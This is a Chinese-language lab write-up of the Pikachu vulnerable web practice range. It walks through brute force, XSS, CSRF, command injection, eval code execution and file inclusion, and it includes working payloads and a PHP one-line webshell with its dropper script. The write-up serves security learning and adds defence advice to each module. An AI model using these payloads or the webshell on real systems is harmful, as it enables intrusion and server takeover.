Pikachu 靶场笔记
Pikachu 是一个开源的 Web 漏洞练习靶场，内置暴力破解、XSS、SQL 注入等多种常见漏洞场景。本页按模块整理练习过程与原理。
👇 点击模块展开子题目，点击子题目查看详解。
爆破模块4 题 + 防护
“暴力破解”是一种常见的 Web 攻击手段：使用大量认证信息在认证接口反复尝试登录，直到得到正确结果。为提高效率，一般会配合带字典的工具进行自动化操作。
1. 基于表单的暴力破解
这个比较简单，直接用一个“集束炸弹”攻击，同时爆破用户名和密码。

2. 验证码绕过（on server）
总原理：验证码由服务端生成，答案存在 Session 里，登录时服务端逐一比对——比对这一步无法跳过。所以绕的不是“校验”，而是“校验机制里的缺陷”：验证码的生成 / 刷新 / 绑定机制不严，或验证码本身能被机器识别。
攻击方法：开启 Burp 拦截时可以发现验证码会存储在 bf[vcode] 中。

当我们没有放行 GET 包时会发现一个神奇的事情：验证码不会销毁和重新创建。

一句话原理：Pikachu 这个页面的验证码只在“加载页面（GET）”时生成一次并存入 Session，而登录提交（POST）校验通过后没有销毁、也没有重新生成 $_SESSION['vcode']。所以只要你的 Cookie（PHPSESSID）不变、不再刷新页面，Session 里的验证码永远是同一个值——重放多少次都校验通过。
3. 验证码绕过（on client）
这个比较简单：客户端验证码校验是通过 JS 代码实现的，因此只要在设置中禁用 JS，就可以不要验证码直接爆破。

4. Token 防爆破
原理：
- GET 页面 → 生成 token「a1b2」存入 Session，嵌入隐藏字段；
- POST 提交 token=a1b2 → 比对通过 → 立即销毁并生成「c3d4」；
- 固定 a1b2 重放 → Session 已是 c3d4 → 拒绝 ✘。
解决方法：
- 写脚本循环（Python + requests）：
session.get()解析出新 token →session.post()提交一组账号密码 → 再 GET 取新 token……每次请求都带最新 token。 - 或用 Burp 高级用法：Macro（会话处理规则）——在每次发送前自动先 GET 页面、正则提取 token、替换请求中的 token 参数。
防护方法防御建议
- 强密码策略：要求足够的长度与复杂度，禁止弱口令、默认口令。
- 登录失败限制：失败次数达到阈值后锁定账号或封禁 IP，并增加递增等待时间。
- 验证码：服务端生成并校验，一次性使用，提交后立即销毁/刷新，避免被复用。
- 接口限速：对登录、注册、找回密码等接口做 rate limit，防止高频尝试。
- 多因素认证（MFA）：密码之外再叠加短信/动态令牌等。
- 一次性 Token：token 每次请求后更新，防止重放。
- 日志监控：记录并告警异常登录（失败次数、异常 IP、非工作时间）。
XSS 注入模块9 题 + 防护
XSS（跨站脚本攻击，Cross-Site Scripting）是指攻击者把恶意脚本注入到页面中，其他用户浏览该页面时脚本被执行，从而窃取 Cookie、劫持会话或进行钓鱼等。Pikachu 的 XSS 模块包含反射型、存储型、DOM 型以及过滤绕过等场景。（配图为演示示意图）
1. 反射型 XSS（GET）
原理：payload 作为 URL 参数传入，服务端未做过滤直接回显到页面，浏览器把回显内容当作 HTML 解析并执行脚本。
测试：在输入框或 URL 的 message 参数里提交 <script>alert(1)</script>，页面弹出 1。

2. 反射型 XSS（POST）
原理：与 GET 型相同，只是 payload 放在 POST 表单数据里，服务端同样未过滤直接回显。
测试：用 Burp 拦截登录/提交请求，把 message 改成 payload；或自建一个自动提交的表单页面提交给目标。
3. 存储型 XSS
原理：payload 被存入数据库（如留言板、评论、个人资料），每次有人访问该页面都会把内容读出并渲染，脚本随之执行。
测试：在留言板提交 <img src=x onerror=alert(1)>，刷新页面仍会触发。

4. DOM 型 XSS
原理：不经过服务端，前端 JS 从 location.hash / location.search 等取值后，用 innerHTML、document.write 写入 DOM，导致脚本执行。
测试：在 URL 的 # 后注入 <img src=x onerror=alert(1)>，页面 JS 把它写进 DOM 就会触发。

5. XSS 盲打
原理：payload 提交后不会立即在前台回显，而是在后台管理页面（如留言审核、日志查看）被触发。
方法：使用 XSS 平台（Pikachu 自带 pkxss 后台）接收被触发后的 Cookie / 请求，判断是否存在盲打。
- 在可输入处填入指向 XSS 平台的 payload；
- 等待管理员在后台查看该内容；
- 平台收到请求即说明盲打成功。
6. 绕过：关键字过滤（script 被禁）
原理：后端用黑名单/正则过滤 script、alert 等关键字。
换标签：用不需要 script 标签的事件来触发：
<img src=x onerror=alert(1)><svg onload=alert(1)><body onload=alert(1)><details open ontoggle=alert(1)>
关键字变形：大小写 ScRiPt、双写 scrscriptipt（仅在只替换一次时有效）、HTML 实体/URL 编码等。
7. 绕过：htmlspecialchars 转义
原理：htmlspecialchars() 会把 < > & " ' 转成实体，直接闭合标签的写法会失效。
思路：
- 寻找没有经过该函数处理的输出点（换个参数/字段试试）；
- 若双引号未被转义且输出在属性内，可闭合属性并加事件：
" onmouseover=alert(1) x="； - 若只转义了尖括号，尝试事件属性、
javascript:等其它上下文。
8. 绕过：输出到 href 属性
原理：用户输入被拼进 <a href="...">，可注入 javascript: 伪协议。
payload：javascript:alert(1)
变型：若过滤 javascript，尝试大小写、插入制表符/换行、HTML 实体等（视具体过滤而定）。
9. 绕过：输出在 <script> 内
原理：输入被放进 <script> 的 JS 字符串或 JSON 中，需要闭合引号/标签再执行。
- 单引号字符串内：
';alert(1)// - 双引号字符串内：
";alert(1)// - 若
</script>未被转义：</script><script>alert(1)</script>
防护方法防御建议
- 输出编码：按上下文编码（HTML 用
htmlspecialchars，属性/JS/URL 分别编码），这是防 XSS 最核心的一步。 - 模板自动转义：使用会默认转义的模板引擎，避免字符串拼接 HTML。
- 富文本过滤：需要保留 HTML 时使用白名单过滤（如 DOMPurify）。
- 前端安全写法：用
textContent代替innerHTML，避免document.write写入不可信数据。 - CSP：设置
Content-Security-Policy，限制脚本来源、禁用内联脚本。 - Cookie 加固：设置
HttpOnly、Secure、SameSite，降低脚本窃取风险。 - 校验 DOM 输入：对
location.hash、location.search等来源做校验与编码。
CSRF 模块3 题 + 防护
CSRF（跨站请求伪造，Cross-Site Request Forgery）是指攻击者诱导已登录用户在不知情的情况下，以其身份向目标站点发送请求，从而执行修改资料、修改密码等敏感操作。核心是“借用受害者的登录态”。
1. GET 型 CSRF
原理：敏感操作的参数通过 GET 传递，攻击者构造一个带参数的链接，诱导已登录用户点击，即以其身份完成操作。
测试：登录后修改个人信息并抓包，得到完整的 GET 请求 URL；把该 URL 发给受害者（或以短链、图片等形式诱导访问），对方打开后资料就被修改。
http://10.47.250.38:8443/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=woman&phonenum=13676767767&add=nba+76&email=allen%40pikachu.com&submit=submit
2. POST 型 CSRF
原理：敏感操作通过 POST 提交，攻击者构造一个“自动提交”的 HTML 表单页面，诱导受害者访问该页面即自动提交请求。
测试：用 Burp 的 Engagement tools → Generate CSRF PoC 生成表单 HTML，保存后在受害者浏览器中打开，脚本会自动提交。

3. CSRF Token
原理：服务端在表单中加入一次性 token，提交时校验 token 与会话中的值是否一致，以区分“用户本人提交”和“第三方伪造请求”。
源码分析：
if(isset($_GET['submit'])){
if($_GET['sex']!=null && ... && $_GET['token']==$_SESSION['token']){ // 第33行：先校验
update member ...
}
}
set_token(); // 第48行：校验“之后”才生成/刷新 token也就是说 token 只有在打开修改页面后才会生成 / 刷新。因此可以诱导受害者在“打开修改页面之前”点击恶意链接，从而绕过校验直接修改内容：
http://127.0.0.1:8443/pikachu/vul/csrf/csrftoken/token_get_edit.php?sex=gay&phonenum=18626545453&add=chai&email=vince%40pikachu.com&submit=submit访问后即可看到资料被直接修改：

防护方法防御建议
- CSRF Token：不可预测、一次性、绑定会话，每次请求后刷新。
- 校验 Referer / Origin：确认请求来自本站页面。
- 敏感操作使用 POST：避免用 GET 执行有副作用的操作。
- Cookie 的 SameSite：设置为
Lax或Strict，减少跨站携带。 - 二次验证：改密、转账等关键操作要求再次输入密码或验证码。
SQL 注入模块开发中
该模块正在整理中，敬请期待。
RCE 模块2 题 + 防护
RCE（Remote Code Execution，远程代码执行 / 命令执行）是指应用把不可信的输入拼接进系统命令或代码中执行，攻击者可借此在服务器上执行任意命令或代码，危害极高。Pikachu 的 RCE 模块包含 exec "ping"（命令注入）和 exec "eval"（代码执行）。
1. exec "ping"（命令注入）
原理：页面把用户输入当作 ping 的目标地址拼接到系统命令中执行，没有过滤 & | ; 等命令连接符，因此可以在正常命令后拼接额外命令。
测试：输入 127.0.0.1 & whoami，先执行 ping，再执行 whoami，返回当前运行 Web 服务的用户。


&、&&、|、||；Linux 常用 ;、|、&&、$()、反引号。2. exec "eval"（代码执行）
原理：页面把输入拼接进 PHP 的 eval() 中执行，等价于可以执行任意 PHP 代码。
测试：提交 phpinfo(); 查看环境信息，或 system('whoami');、system('ipconfig'); 执行系统命令。

防护方法防御建议
- 严格校验输入：使用白名单，例如只允许合法的 IP / 域名格式，拒绝一切多余字符。
- 不拼接系统命令：必须调用时用
escapeshellarg()/escapeshellcmd()转义。 - 禁用危险函数：在
disable_functions中禁用system、exec、passthru、shell_exec、popen等（eval需靠代码审计 / 安全扩展约束）。 - 最小权限：Web 服务以低权限账号运行，降低被控后的影响范围。
- 用安全 API 替代：尽量使用语言/框架提供的安全接口，而不是 shell 或 eval。
文件包含模块3 题 + 防护
文件包含（File Inclusion）是指应用通过 include / require 等语句加载文件时，文件名由用户可控参数决定且未做严格校验，从而可以包含任意文件（本地文件包含 LFI / 远程文件包含 RFI）。结合上传或写文件，常可进一步 Getshell。
1. 本地文件包含（LFI）
原理：类似 include($_GET['filename']) 的写法让用户控制被包含的文件路径，配合 ../ 目录穿越即可跳出当前目录，包含服务器上的其它文件。
测试：用 ../ 回到上一级目录，包含 fileinclude.php：
http://127.0.0.1:8443/pikachu/vul/fileinclude/fi_local.php?filename=../fileinclude.php&submit=提交
2. 包含写一句话木马（Getshell）
原理：被包含的文件若含有 PHP 代码会被执行。利用一个会写文件的脚本 yijuhua.txt，包含后会在同目录生成 yijuhua.php，内容为 <?php system($_GET[x]);?>（一句话木马）。
yijuhua.txt 内容：
<?php
$myfile = fopen("yijuhua.php", "w");
$txt = '<?php system($_GET[x]);?>';
fwrite($myfile, $txt);
fclose($myfile);
?>包含之后，目录里出现新生成的 yijuhua.php：


x 传入系统命令。3. 命令执行
利用：直接访问木马并传入 x 参数，即可执行系统命令（这里执行 ipconfig）：
http://127.0.0.1:8443/pikachu/vul/fileinclude/yijuhua.php?x=ipconfig
$_GET[x]（未加引号）会产生 Warning，但命令依然执行成功。防护方法防御建议
- 白名单包含：只允许包含指定的文件名，不要把用户输入直接拼接进路径。
- 过滤穿越字符：拦截
../、..\\、绝对路径等，或先用basename()只取文件名。 - 关闭远程包含：设置
allow_url_include=Off，必要时也关闭allow_url_fopen。 - 上传目录禁止执行：限制上传目录的 PHP 执行权限。
- 最小权限：Web 服务以低权限账号运行，降低被 Getshell 后的影响。
文件上传与下载模块3 题 + 防护
文件上传与下载是 Web 中常见的高危功能点：上传若校验不严可上传脚本 Getshell；下载若用参数直接拼接文件路径，可造成任意文件下载 / 源码泄露。本模块把两者合并整理。（配图为演示示意图）
1. 文件上传：客户端校验绕过
